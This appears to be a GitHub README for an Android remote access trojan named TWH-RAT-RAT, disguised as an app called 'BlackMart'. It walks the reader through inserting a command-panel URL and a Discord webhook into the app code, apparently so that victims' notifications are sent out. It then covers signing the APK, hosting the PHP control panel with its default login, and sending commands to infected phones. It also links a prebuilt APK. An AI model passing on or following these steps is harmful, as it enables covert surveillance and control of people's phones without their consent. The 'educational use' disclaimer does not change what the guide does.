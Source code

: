 1.  Open Project ***BlackMart*** in Android Studio 
2.  Put the `command.php` link of server in InternalService.class class
3.  Now open `NotificationListener.java` and enter  replace with your discord webhook url
4.  Build the Project
5.  Zipalign and sign the Apk...
---
### Building Apk with ApkEasyTool:

1. Download <a href="https://github.com/nasirz11/TWH-RAT-RAT/releases/download/release/BlackMart.apk">BlackMartapk</a> and  decompile with `Apktool` and navigate to `smali_classes2\com\velociraptor\raptor`
2. Open `InternalService.smali` 
3. Replace this with your Panel Url ***const-string v0, "https://your-webpanel-url/public/commands.php"***
4. Now open `NotificationListener.smali` and enter replace with your discord webhook url

---
### Building Server 
1. Upload Files in server Folder to Your HostingPanel
2. Now Open login.php 
3. Enter Username ***Hande*** Password ***Ercel***
4. Note : Make Sure your webhosting site uses Https and should have valid connection...I recommend 000webhost.com
5. You can now use panel to send commands and also refresh after it
---
### TWH-RAT-RAT in Action [OLD] :

https://user-images.githubusercontent.com/46685308/120080601-603c5380-c0d7-11eb-82b2-345d0bff7581.mp4

Watch Video in Full Screen For Better Quality

---
## Screenshots[New]
| | | |
|:-------------------------:|:-------------------------:|:-------------------------:|
|<a href="https://github.com/nasirz11/TWH-RAT-RAT/blob/main/Screenshots/Screenshot%20(70).png?raw=true"> <img width="2000" src="https://github.com/nasirz11/TWH-RAT-RAT/blob/main/Screenshots/Screenshot%20(70).png?raw=true"> Panel-1</a> | <a href="https://github.com/nasirz11/TWH-RAT-RAT/blob/main/Screenshots/Screenshot%20(71).png?raw=true"> <img width="2000" src="https://github.com/nasirz11/TWH-RAT-RAT/blob/main/Screenshots/Screenshot%20(71).png?raw=true"> Panel-2</a> |<a href="https://github.com/nasirz11/TWH-RAT-RAT/blob/main/Screenshots/Screenshot%20(72).png?raw=trueg"> <img width="2000" src="https://github.com/nasirz11/TWH-RAT-RAT/blob/main/Screenshots/Screenshot%20(72).png?raw=true"> Panel-3 </a>||

---

### Check this Article 

- https://dontkillmyapp.com/


--- 
## Disclaimer
<b>nasirz11 Provides no warranty and will not be responsible for any direct or indirect damage caused by this tool.<br>
TWH-RAT-RAT is built for Educational and Internal use ONLY.</b>

---